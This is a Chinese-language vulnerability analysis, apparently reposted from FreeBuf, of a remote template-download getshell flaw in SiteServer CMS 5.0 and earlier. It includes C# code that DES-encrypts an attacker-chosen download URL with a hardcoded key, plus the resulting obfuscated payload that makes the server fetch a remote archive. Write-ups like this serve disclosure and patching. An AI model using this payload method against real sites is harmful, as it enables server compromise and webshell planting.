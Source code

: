 # SiteServerCMS-Getshell-
SiteServerCMS 5.0远程模板下载Getshell漏洞

Author:1u0hun

From:https://www.freebuf.com/articles/web/195105.html

0x00 漏洞概述

通过了解，得知被攻击的网站使用的是siteserver cms，为开源免费cms框架，[官网](https://www.siteserver.cn/)
捕获到的“0 day”是通过远程模板下载getshell，漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀


0x01 漏洞分析

可以看到利用的是ajaxOtherService.cs中的SiteTemplateDownload功能模块，使用notepad++搜索到该功能模块如下。发现在ajaxOtherService.cs文件中确实存在函数调用接口SiteTemplateDownload(stringdownloadUrl, string directoryName, string userKeyPrefix)image.png


其中downloadUrl就是远程文件的URL地址，directoryName是下载到本地之后命名的模板目录，userKeyPrefix是加密的密钥，继续审核此文件，整理出整个函数调用流程如下，首先在AjaxOtherService.cs文件中使用Page_Load函数负责加载整个页面，然后通过request[‘type’]获取到不同的操作类型，如果获取到的type为TypeSiteTemplateDownload ，就会执行其request参数值的相关功能，其中最重要的一步操作就是此时先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。 image.png


在AjaxOtherService类中通过常量中已经定义了TypeSiteTemplateDownload = “SiteTemplateDownload”;image.png


因此当type等于SiteTemplateDownload时就会调用SiteTemplateDownload函数，逻辑非常的清楚，接下来分析downloadurl到底是怎么解密的，这也是本次审计的重点，毕竟其他逻辑非常清楚了，通过调用TranslateUtils.DecryptStringBySecretKey函数进行解密，通常开发习惯就是类名与文件名基本保持一致，因此很容易找到该文件image.png
<br>
通过分析源代码可知，这里将DecryptStringBySecretKey函数进行重载，在调用DecryptStringBySecretKey(string inputString)时候，实际上调用的是下面带secretKey的同名函数DecryptStringBySecretKey(stringinputString, string secretKey)，分析该函数其中secretKey是取自WebConfigUtils.SecretKey的值，通过审计WebConfigUtils.cs文件可知，该值是从配置文档web.config中取得对应字段值。SecretKey的值可以在web.config文件中找到。
<br>
image.png

解密函数DecryptStringBySecretKey(string inputString, string secretKey)中secretKey的参数值同样为WebConfigUtils.SecretKey的值,继续分析该函数，可以看到先进行了混淆字符，将字符“+=&?’/”替换成DES加密后的密文。image.png

这里使用python脚本去除混淆，恢复原DES密文。image.png

程序去除混淆之后调用DES模块并实例化encryptor对象调用DesDecrypt解密函数，在实例化对象时将inputString和secreKey传入。使用
[菜鸟教程](http://www.runoob.com/)

调试运行下核心的加解密代码传入参数_encryptKey和_inputString加密代码调试如下_inputString传入任意黑客构造的地址，_encryptKey传入密钥。


```C#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "http://127.0.0.1:99/txt2.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
```

f1.png
执行之后获取其加密downloadurl如下：
> ZjYIub/YxA3QempkVBK4CoiVo3M607H/TBf7F0aPcUE=
使用python代码混淆该url，得到最后利用的downloadurlf2.png


混淆之后的downloadurl为：
> ZjYIub0slash0YxA3QempkVBK4CoiVo3M607H0slash0TBf7F0aPcUE0equals00secret0

解密的步骤与加密相反，首先将混淆后的下载地址去除混淆。去混淆py代码去混淆后密文如下：
<br>
> ZjYIub/YxA2nYLIZNDeUmdd3GBhwbuBXI4s2bpH2CVmtg2H/QGZ4+ZW0iiVbi/MDytVnpZKliDw=

解密函数调试如下，传入_inputString和密钥 
f3.png




